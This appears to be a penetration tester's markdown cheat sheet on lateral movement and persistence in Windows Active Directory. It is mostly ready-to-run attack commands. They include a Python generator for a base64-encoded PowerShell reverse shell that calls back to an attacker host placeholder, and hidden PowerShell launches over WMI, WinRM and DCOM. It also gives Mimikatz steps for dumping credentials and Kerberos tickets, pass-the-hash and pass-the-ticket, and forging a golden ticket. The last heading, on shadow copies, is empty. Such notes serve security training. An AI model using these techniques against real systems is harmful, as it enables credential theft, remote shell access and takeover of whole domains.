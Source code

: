 # Lateral movements in AD

## Techniques

### Windows Remote Management

#### WMI

Takes a local group `Administrators` account:

##### In `cmd`

Deprecated:
```
wmic /node:$TargetIp /user:somelocalAdminuser /password:somepass process call create "cmd"
```

##### In PowerShell

```
$username = 'user';
$password = 'pass';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName $VictimIP -Credential $credential -SessionOption $Options
$Command = 'powershell -nop -w hidden -e somebase64string
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command};
```

For a PowerShell reverse shell (in Python, replace the IP and Port): 
```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("AttackerIp",AttackerPort); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i); $sendback = (iex $data 2>&1 | Out-String); $sendback2 = $sendback + "PS " + (pwd).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte, 0, $sendbyte.Length); $stream.Flush()}; $client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

#### WinRM

##### In `cmd`: WinRS (Windows Remote Shell)
 
```
winrs -r:targethostname -u:user -p:pass  "powershell -nop -w hidden -e somebase64string"
```

##### In PowerShell

```
$username = 'user';
$password = 'pass';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName $VictimIp -Credential $credential

Enter-PSSession $winrm_session_number
```

### PsExec

Pre-requisites:
- user `targetuser` needs to be part of the `Administrators` local group
- the `ADMIN$` share must be available
- `File and Printer Sharing` has to be turned on

Uses Sysinternals: https://learn.microsoft.com/en-us/sysinternals/

```
kali $ rdesktop -u $firstUser $firstTargetIp
cmd > C:\path\to\PsExec64.exe -i  \\targethostname -u targetdomain\targetuser -p somepass cmd
> hostname
> whoami
```

### Pass the Hash

Works with servers and services using NTLM authentication, but NOT with Kerberos authentication.
Impacket-Wmiexec on GitHub: https://github.com/fortra/impacket/blob/master/examples/smbclient.py
```
/usr/bin/impacket-wmiexec -hashes 00000000000000000000000000000000:somelonghashstring Administrator@$VictimIP
```

### Overpass the Hash

First, run a process as a different user with Shift-Right click, say Notepad. Then:
```
kali$ xfreerdp /cert-ignore /u:someuser /d:targetorg.com /p:somepass /v:somehostIp
PS > c:\path\to\mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::pth /user:targetuser /domain:targetorg.com /ntlm:somentlmstring /run:powershell
PS2 > klist # check the cached tickets
PS2 > net use \\otherhostname
PS2 > klist # re-check the cached tickets
PS2 > cd c:\path\to\psexec
PS2 > .\PsExec.exe \\otherhostname cmd
cmd > whoami # targetuser
cmd > hostname # otherhostname
```

### Pass the Ticket

Context:
- attacker connected as user1 on host1
- user2 is connected on host2
Goal:
- steal user2's Ticket Granting Service in memory and inject it in user1's session. Then connect as user1 on host2 using user2's ticket

```
PS > whoami # user1
PS > ls \\host2\someshare # access denied
PS > c:\path\to\mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
PS > dir *.kirbi # file with the tickets
mimikatz # kerberos::ptt name_of_the_kirbi_file_with_user2_tickets.kirbi
PS > klist # lists the tickets, user2 should appear
PS > ls \\host2\someshare # access granted
```

### DCOM

In an elevated PowerShell:
```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","targetIpAddress"))
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc", "7") # parameters are Command, Directory, Parameters, and WindowState
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e base64longreverseshellstring", "7")
```
Reference: https://learn.microsoft.com/en-us/previous-versions/windows/desktop/mmc/view-executeshellcommand

## Persistence

### Golden ticket

Kerberos service account: `krbtgt`
Mimikatz on GitHub:
- https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump
- https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos

Takes a Domain Admin account on the Domain Controller, or have compromised the Domain Controller:
```
SomeWorkstation c:\path\to\sysinternalsuite > .\PsExec64.exe \\TargetDomainController cmd.exe # access denied

DomainController c:\path\to\mimikatz > .\mimikatz.exe # on the Domain Controller, with a Domain Admin account
DC mimikatz # privilege::debug
DC mimikatz # lsadump::lsa /patch # search for the krbtgt service NTLM hash, and get the domain SID: S-1-5-21-x-y-z

SomeWorkstation c:\path\to\mimikatz > mimikatz.exe # on a workstation, with a random user account
DC mimikatz # kerberos::purge
DC mimikatz # kerberos::golden /user:targetuserondc /domain:somedomainname.com /sid:S-1-5-21-x-y-z
SomeWorkstation c:\path\to\sysinternalsuite > .\PsExec64.exe \\TargetDomainController cmd.exe # access granted on the Domain Controller
DomainController c:\any\path > ipconfig
c:\any\path > whoami # targetuserondc
c:\any\path > whoami /groups # expected "somedomainname\Domain Admins"

SomeWorkstation c:\path\to\sysinternalsuite > .\PsExec64.exe \\TargetDomainControllerIpAddress cmd.exe # access denied, the IP address triggers an NTLM authentication
```

Reference: https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don%27t-Get-It.pdf

### Shawdow copies


